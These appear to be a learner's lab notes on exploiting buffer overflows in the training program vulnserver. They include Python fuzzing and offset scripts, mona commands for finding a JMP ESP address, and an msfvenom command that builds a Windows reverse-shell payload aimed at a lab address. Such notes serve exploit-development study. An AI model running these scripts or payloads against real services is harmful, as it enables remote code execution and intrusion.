




STEP1: connect to service uing Netacat
`nc <targetip> <port>`

# BUFFER OVERFLOWS with TRUN

## SPIKING (eg using command TRUN)

`generic_send_tcp targetip port TRUN.spk 0 0`

//file-contents of **TRUN.spk**

```
s_readline();
s_string("TRUN ");
s_string_variable("0");
```

* * *

## FUZZING

`./trun_fuzz.py`

```
#!/usr/bin/python3
import sys, socket
from time import sleep
buffer = "A" * 100
while True:
        try:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect(('<targetIP>',<port>))
                payload = "TRUN /.:/" + buffer
                s.send((payload.encode()))
                s.close()
                sleep(1)
                buffer = buffer + "A"*100
        except:
                print ("Fuzzing crashed at %s bytes" % str(len(buffer)))
                sys.exit()
```

(eg, it crashes around 2500 bytes)

* * *

## FINDING_THE_OFFSET

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500`  
use output in payload

`./trun_offset.py`

```
#!/usr/bin/python3
import sys, socket
from time import sleep
offset = "paste output from pattern_create here"
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('<targetIP>',<port>))
    payload = "TRUN /.:/" + offset
    s.send((payload.encode()))
    s.close()
except:
    print ("Error connecting to server")
    sys.exit()
```

get the **EIP** value after running script (eg 386F4337 and use in command below)  
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2500 -q 386F4337`  
result = exact match at offset (eg 2003 bytes)

* * *

## OVERWRITE THE EIP

`./trun_badchars.py`

```
#!/usr/bin/python3
import sys, socket

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
  
shellcode = "A" * 2003 + "B" * 4 + badchars
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.140.135',9999))
    payload = "TRUN /.:/" + shellcode
    s.send((payload.encode()))
    s.close()
except:
    print ("Error connecting to server")
    sys.exit()
```

**ESP** > Follow the hex dump and look for any charachers out of place (they become the bad characters not to include in shell)

* * *

## FINDING THE RIGHT MODEULE

1.  add **mona.py** to the PyCommands folder on immunity debugger
2.  create subfolder folder **mona**
3.  From Immunity Debugger:  
    `!mona config -set workingfolder C:\Users\Bill\Downloads\vulnserver-master\mona`  
    `!mona bytearray -cpb "\x00"` ( generates badcharacter array)  
    `!mona compare -f C:\Users\Bill\Downloads\vulnserver-master\mona\bytearray.bin -a VALUE_OF_ESP` (when clicking to follow dump)  
    `!mona modules` (look for FALSE FALSE FALSE ...eg they are on file.dll )  
    `!mona jmp -r ESP -m "file.dll"`  
    OR  
    `!mona find -s "\xff\xe4" -m file.dll` (copy Address) eg:  
    Log data, item 11  
    Address=625011AF  
    Message= 0x625011af : "\\xff\\xe4" | {PAGE\_EXECUTE\_READ} \[essfunc.dll\] ASLR: False, Rebase: False, SafeSEH: False, CFG: False, OS: False, v-1.0- (C:\\Users\\Bill\\Downloads\\vulnserver-master\\essfunc.dll), 0x0

4.update **trun\_module.py** with:  
`shellcode = "A" * 2003 + "\xaf\x11\x50\x62"`

5.  From Immunity debugger, click arrow to "*Enter expression to follow*" and enter address (eg 625011af), then *select* and press *F2*, then press play
    
6.  run **trun\_module.py**
    
7.  `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.140.128 LPORT=8888 EXITFUNC=thread -f c -a x86 -b "\x00\x01`" (-b are the badchars)
    
8.  copy the **unsigned\_char\_buff** and add to:  
    `overflow =` ("unsigned\_char\_buff list")  
    `shellcode = "A" * 2002 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow`
    

&nbsp;

* * *

# BUFFER OVERFLOW #2
READ FIRST: If issue with any of the scripts, try changing values to have "b" (as bytes) before them. eg `payload = "a" * 100` becomes `payload = b"a" * 100`
(check [min 24:00](https://academy.tcm-sec.com/courses/1154399/lectures/24800152))
### Find estimate of how many bytes to cause buffer overflow:
1.  Create **buffer_fuzz.py**

```
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
        try:
                payload = buffer + '\r\n'
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect(('<targetIP>',<port>))
                print("[+] Sending the payload...\n" + str(len(buffer)))
                s.send((payload.encode()))
                s.close()
                sleep(1)
                buffer = buffer + "A" * 100
        except:
                print("The fuzzing crashed at %s bytes" % str(len(buffer)))
                sys.exit()
```

2.  Launch executable and attach process to **ImmunityDebugger**, press **Play**
3.  From Kali, update **buffer_fuzz.py** with target port and IP address, then run : `python3 buffer_fuzz.py`
4.  Take note of approximate bytes to crash

### Find the offset:
1.  Create payload:  
    `msf-pattern_create -l <approx_num_of_bytes_to_crash>`
2.  Update **buffer_fuzz_nosleep.py** with the target IP and port, and paste the payload generated from above step, then run: `python3 buffer_fuzz_nosleep.py`
3.  Confirming in ImmunityDebugger it has crashed (paused) and copy the value that has written over the EIP ("EIPvalue")
4.  From Kali, create new payload:  
    `msf-pattern_offset -l <approx_num_of_bytes_to_crash> -q <EIPvalue>`
5. Take note of **match at offset** "offsetnumber"
6. Update **buffer_fuzz_withoffset.py** with target IP and port and the ("offsetnumber") then run: `python3 buffer_fuzz_withoffset.py`
7. Confirm in ImmunityDebugger that **EIP** has been overwritten with **42424242**


### Look for bad characters:
1. Update buffer_fuzz_badchars.py with target IP, port, offsetnumber and run:
`python3 buffer_fuzz_badchars.py`
2. In **ImmunityDebugger**, right click the **ESP** and choose **Follow in Dump**
3. Look in the hex dump and look for any charachers out of place (they become the bad characters not to include in shell)

### Check file for protection using MONA
1. In ImmunityDebugger, type: 
`!mona modules`
In the **Log data** windows, check that protections are set to **false**

2. Look for the jump address:
`!mona find -s "\xff\xe4" -m targetfile.exe` (Note: \xff and \xe4 are the code for FFE4 **JMP ESP** instruction)

3. Click the blue arrow "**Go to address in Disassembler**" and enter the address of the **JMP ESP** instruction to confirm the jumpaddress

4. Convert the address to proper format:
eg **1122AABB**  =>>  **/xbb/xaa/x22/x11**
5. Update file **buffer_fuzz_jump.py** with the converted **jumpaddress**


